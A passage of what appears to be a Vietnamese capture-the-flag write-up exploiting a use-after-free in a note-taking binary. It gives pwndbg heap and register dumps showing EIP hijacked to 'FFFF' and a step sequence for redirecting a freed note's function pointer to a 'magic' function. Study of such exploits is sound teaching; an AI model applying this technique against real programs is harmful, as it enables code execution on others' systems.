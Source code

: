 ```
0x804b258	0x00000000	0x00021da9	........	 <-- Top chunk
```

```
pwndbg> tcachebins 
tcachebins
0x10 [  1]: 0x804b1a0 — 0x0
0x20 [  3]: 0x804b230 — 0x804b1f0 — 0x804b1b0 — 0x0
```
- Quan sát kĩ và ta thấy rằng **0x804b220** và **0x804b1e0** đã được sử dụng để cấp cho **note_list[3]**. Trong đó **0x804b220** sử dụng cho **print_note** và **0x804b1e0** sử dụng cho content **FFFF**. Tại sao lại như vậy ? Câu trả lời ở đây nằm ở việc glibc lấy dữ liệu ra khỏi tcachebins. Tcachbins lưu trữ theo nguyên tắc LIFO (Last in first out). Vì thế, khi glibc cấp vùng nhớ cho **note_list[3]**, đầu tiên glibc sẽ lấy **0x804b220** để cấp cho **print_note** và say đó là **0x804b1e0** cho **FFFF**. Tại sao lại cấp cho **print_note** trước **Content** ? Đó là vì code thực hiện như vậy!

```
struct note {
  void (*printnote)();
  char *content;
};
```
- Tiếp tục kiểm tra, ta nhận thấy rằng **0x804b1e0** trước đó là địa chỉ chứa thông tin mà **note_list[2]->print_note** trỏ tới (trước khi free **note_list[1]**, nó lưu giá trị **0x0804865b**). Vậy nghĩa là nếu ta gọi **print_note** cho **note_list[1]**, EIP sẽ có giá trị là **FFFF**. Để kiểm chứng việc này, ta sẽ ấn c để tiếp tục, và nhập giá trị index là 1 .

```
pwndbg> c
Continuing.
Index :1

Program received signal SIGSEGV, Segmentation fault.
0x46464646 in ?? ()
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
───────────────────────────────────────────────────────────────────────────────────────────────────[ REGISTERS ]───────────────────────────────────────────────────────────────────────────────────────────────────
*EAX  0x46464646 ('FFFF')
 EBX  0x0
*ECX  0xffffd2b9 — 0xf7fa0a
*EDX  0x804b1e0 — 'FFFF\n'
 EDI  0xf7fa6000 (_GLOBAL_OFFSET_TABLE_) ◂— 0x1e4d6c
 ESI  0xf7fa6000 (_GLOBAL_OFFSET_TABLE_) ◂— 0x1e4d6c
*EBP  0xffffd2c8 — 0xffffd2e8 ◂— 0x0
*ESP  0xffffd29c — 0x804896f (print_note+154) ◂— add    esp, 0x10
*EIP  0x46464646 ('FFFF')
```
- Và ta đã có thể control EIP theo ý muốn.

**5.How2heap**
- Dựa vào những điều phân tích trên, ta có kịch bản để control EIP gọi tới hàm **magic** như sau:
+ Add_note 0 size 32, content AAAA
+ Add_note 1 size 32, content AAAA
+ Add_note 2 size 32, content AAAA
+ Delete note 0
+ Delete note 1
+ Delete note 2
+ Add_note 3 size 8, content là địa chỉ của **magic**
+ Gọi Print_note với index là 1
